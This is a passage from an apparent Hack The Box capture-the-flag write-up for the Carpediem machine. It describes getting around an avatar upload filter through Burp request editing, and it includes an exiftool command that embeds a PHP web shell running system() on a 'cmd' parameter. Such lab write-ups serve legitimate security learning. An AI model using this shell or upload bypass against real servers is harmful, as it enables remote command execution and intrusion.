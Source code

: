 ![](/assets/images/htb-writeup-carpediem/carpediem06.png)

![](/assets/images/htb-writeup-carpediem/carpediem07.png)


### Step 2
Going through the admin panel the options are slim, at first glance it looks like we have a lot of options but in reality they've removed all the _update/save_ buttons only giving access to few functions.

**(1)** We can create a new bike with text + image<br>
**(2)** Edit previously created bikes<br>
**(3)** Print a Booking Report PDF<br>
**(4)** Edit our user profile and add avatar image<br>

Looking on bookings we find 5 entries, and from the data a new name: `jhammond@carpediem.htb`.
Going to edit user profile I try to upload a malicious jpg containing php code, but this does nothing. 

We can bypass this by simply capturing the request in burp and removing `.jpg` from the request body, and the file will be uploaded as a ``.php``. 
```bash
➜  carpediem exiftool -DocumentName="<h1>0xPThree - exploit.se<br><?php if(isset(\$_REQUEST['cmd'])){echo '<pre>';\$cmd = (\$_REQUEST['cmd']);system(\$cmd);echo '</pre>';} __halt_compiler();?></h1>" exploit.jpg 
    1 image files updated
➜  carpediem mv exploit.jpg exploit.php.jpg
```
